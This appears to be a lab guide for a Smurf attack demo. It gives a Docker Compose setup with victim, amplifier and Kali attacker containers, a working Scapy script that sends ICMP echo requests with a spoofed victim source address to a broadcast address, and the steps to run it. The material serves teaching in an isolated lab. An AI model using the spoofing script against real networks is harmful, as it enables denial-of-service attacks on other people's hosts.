 # Docker Compose for Smurf Attack Demo


````yaml

services:
  ubuntu-victim:
    image: ubuntu:20.04
    container_name: ubuntu-victim
    networks:
      attack_network:
        ipv4_address: 172.20.0.2
    cap_add:
      - NET_ADMIN
    stdin_open: true
    tty: true
    command: bash -c "apt-get update && apt-get install -y iproute2 iputils-ping net-tools tcpdump && /bin/bash"

  ubuntu-amplifier:
    image: ubuntu:20.04
    container_name: ubuntu-amplifier
    networks:
      attack_network:
        ipv4_address: 172.20.0.3
    cap_add:
      - NET_ADMIN
    stdin_open: true
    tty: true
    sysctls:
      - net.ipv4.ip_forward=1
      - net.ipv4.icmp_echo_ignore_broadcasts=0
    command: bash -c "apt-get update && apt-get install -y iproute2 iputils-ping net-tools tcpdump && /bin/bash"

  kali-attacker:
    image: kalilinux/kali-rolling
    container_name: kali-attacker
    networks:
      attack_network:
        ipv4_address: 172.20.0.4
    cap_add:
      - NET_ADMIN
    stdin_open: true
    tty: true
    volumes:
      - ./attack_scripts:/attack_scripts
    command: bash -c "apt-get update && apt-get install -y python3-pip net-tools iputils-ping tcpdump && pip install scapy && /bin/bash"

networks:
  attack_network:
    driver: bridge
    ipam:
      config:
        - subnet: 172.20.0.0/16
````

Now, create a directory for the attack script and add the Smurf attack script:

````python
from scapy.all import *
import sys

def smurf_attack(target_ip, broadcast_ip, count=100):
    print(f"Thực hiện tấn công Smurf từ IP giả mạo {target_ip} đến broadcast {broadcast_ip}")
    for i in range(count):
        # Tạo gói tin ICMP echo request với địa chỉ nguồn giả mạo là máy nạn nhân
        packet = IP(src=target_ip, dst=broadcast_ip) / ICMP()
        send(packet, verbose=0)
        if i % 10 == 0:
            print(f"Đã gửi {i} gói tin...")
    print(f"Hoàn thành tấn công, đã gửi {count} gói tin")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Sử dụng: python smurf_attack.py <địa_chỉ_IP_nạn_nhân> <địa_chỉ_broadcast>")
        sys.exit(1)
    
    target_ip = sys.argv[1]  # IP của máy nạn nhân (Ubuntu 1)
    broadcast_ip = sys.argv[2]  # Địa chỉ broadcast của mạng
    smurf_attack(target_ip, broadcast_ip)

````

## Steps to run the demo:

1. Start all containers:
   ```
   docker-compose up -d
   ```

2. Open three separate terminal windows to monitor each container:

   **Terminal 1 - Victim:**
   ```
   docker exec -it ubuntu-victim bash
   tcpdump -i eth0 icmp
   ```

   **Terminal 2 - Amplifier:**
   ```
   docker exec -it ubuntu-amplifier bash
   tcpdump -i eth0 icmp
   ```

   **Terminal 3 - Attacker:**
   ```
   docker exec -it kali-attacker bash
   cd /attack_scripts
   python3 smurf_attack.py 172.20.0.2 172.20.255.255
   ```

The attack will send 100 ICMP echo requests with the victim's IP as the source to the broadcast address. All hosts (including the amplifier) that respond to broadcast pings will send replies to the victim, potentially overwhelming it.

You'll be able to observe the traffic on both the victim and amplifier containers through tcpdump.
